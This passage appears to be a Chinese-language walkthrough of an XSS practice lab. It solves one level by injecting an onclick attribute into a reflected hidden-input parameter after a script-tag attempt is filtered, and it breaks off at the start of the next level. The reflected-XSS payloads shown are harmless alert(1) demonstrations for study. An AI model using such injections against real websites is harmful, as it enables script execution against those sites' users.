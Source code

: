 发现有个from，但是被hidden了

```
<form id=search>
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
</form>
```

那我们就一起传值看看效果

```
?keyword=&t_link=1&t_history=2&t_sort=3
```



发现t_sort被传入了

```
?keyword=&t_link=1&t_history=2&t_sort="><script>alert(1)</script>
```



输入发现

```
<input name="t_sort"  value=""scriptalert(1)/script" type="hidden">
```



说明过滤了><



```
?t_sort=" οnclick="alert(1)" type=" "
```



最终payload

```
?t_link=&t_history=&t_sort="%20onclick="alert(1)"%20type=""
```





### 11.



还是一样选择进行尝试

```
?t_link=1&t_history=2&t_ref=4&t_sort=3
```

发现t_sort进行传值


